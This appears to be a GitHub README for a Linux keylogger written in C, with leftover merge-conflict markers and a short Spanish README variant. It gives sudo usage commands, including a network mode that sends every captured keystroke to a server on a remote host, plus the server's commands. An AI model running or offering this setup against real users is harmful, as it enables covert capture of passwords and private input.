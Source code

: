 <<<<<<< HEAD
# keylog

A simple keylogger for Linux written in C. The current version will attempt to detect your keyboard event file automatically. 

## Usage

### Client

#### File

```bash
cd keylog/
sudo ./keylog -f file-to-write-to.txt
```

This will log all keystrokes to the specified file while the program is running.

#### Network

```bash
cd keylog/
sudo ./keylog -n hostname
```

This will send all keystrokes to the server running on `hostname`.

### Server


#### stdout

```bash
cd keylog/
./server
```

This will write all keystrokes received from the client to stdout.

#### File

```bash
cd keylog/
./server -f file-to-write-to.txt
```

This will write all keystrokes received from the client to the specified file.

## Output Format

Each key press will cause a string representing that key to be written to the
chosen location, followed by a newline. When the program quits, an extra newline will be added.

#### Example

Typing `hello world` and then quitting the program with `Ctrl-C` will cause the chosen location to contain the following.

```
H
E
L
L
O
SPACE
W
O
R
L
D
LEFTCTRL
C
```

## Building

```bash
cd keylog/
make
```

# Disclaimer

This code was created entirely out of an interest in learning about linux keyboard events. It should never be used on any machine where you are not authorised to log keystrokes.

=======
# keylogger_linux
Keylogger escrito en C para plataformas Linux
>>>>>>> 8fadee64d2b57cb9548bd8826828e84d2817ff33
